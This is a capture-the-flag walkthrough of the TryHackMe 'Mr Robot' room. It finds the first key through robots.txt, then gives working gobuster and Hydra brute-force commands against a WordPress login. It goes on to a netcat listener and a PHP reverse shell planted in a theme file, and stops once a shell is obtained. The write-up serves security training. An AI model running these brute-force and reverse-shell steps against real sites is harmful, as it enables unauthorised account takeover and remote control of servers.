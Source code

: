 <h1>Mr Robot :fsociety: </h1>

![task 2 screenshot](screenshots/MRtask2.png)

<h2>What is key 1?</h1>

Hint: Robots

This hint should take anyone that has done a few ctfs somewhere fast,
it is a suggestion to go check the robots.txt file of the site:

If you haven' yet, go to browser an put the machine ip address, then
after spending some unfruitful time watching Mr. Robot advertisements(/s)
you can go ahead and check out the robots.txt of the site:

`MACHINE_IP/robots.txt`

Below is a screenshot of robots.txt:

![robots screenshot](screenshots/robots.png)

As you can see there are two interesting pieces of information.
The *key-1-of-3.txt* and *fsocity.dic* pages have been placed here to keep crawlers
from indexing them.

So,  lets check them out.

First, *key-1-of-3.txt* :

![key 1 screenshot](screenshots/k1of3.png)

And we got our first key. :sunglasses:

Then *fsocity.dic*,

![fsoc screenshot](screenshots/fsoc.png)

Depending on what browser you are using, you will be able to see the
words in this site or be prompted to download the file immediately upon
visiting the page. Save the file (which seems to be a dictionary) and continue on.

<h2>What is key 2?</h1>

Hint: White colored font

For this answer, we will try to identify the rest of the flags following the
methodology provided in the [official walkthrough](https://www.youtube.com/watch?v=BQ4xeeNAbaw) by DarkSec for TryHackMe.

The next thing to do then, is run gobuster on the site so that we can identify
additional subdomains. This will help us locate a good place to put the
*fsocity.dic* file to use.

You can get gobuster here: https://github.com/OJ/gobuster

Then run the following command.

`gobuster -u 'http://MACHINE_IP' -w any_directory_wordlist.txt -o gobusteroutput.txt `

ONce gobustter is done finding subdomains, we can check which ones have a 200 response:

`cat gobusteroutput.txt | grep 200`

![grep 200 screenshot](grep200.png)

At this point, focus shifts towards the */wp-login* page, wehre we laungh a username and password
brute force attack using our fsocity.dic wordlist and Hydra (https://github.com/vanhauser-thc/thc-hydra)

The command below was used to brute-force the username(USER = Elliot):

`hydra -L fsocity.dic -p test MACHINE_IP http-post-form "/wp-login.php:log^USER^&pwd^PASS^:Invalid username" -V`

Once we have the username, we can go ahead and use the same wordlist to brute-force the
password for the newly found username. (PASS= ER28-0652)

`hydra -l Elliot -P fsocity.dic txt MACHINE_IP http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username" -V`

This will let us access the wordpress account for Elliot and look around.

In this case, Elliot's ability to use the edit panel from his account enable the use of php scripts
that will generate a reverses shell which can be used to gain root access.

To get the shell we start listening on port 53 with netcat:

`sudo rlwrap nc -lvnp 53`

then get a reverse shell from wherever you want, the one from the thm walkthrough was this
one (https://github.com/pentestmonkey/php-reverse-shell). By modifying a php file for a certain them with
the reverse php shell we get the connection. Load that file on the browser, in this case the URL:

`http://10.10.62.195/wp-content/themes/twentyfifteen/archive.php`

We now go back to the terminal in which we are listening for incoming connections on port 53
And we have a shell

Check available users on the shell:  `ls /home`
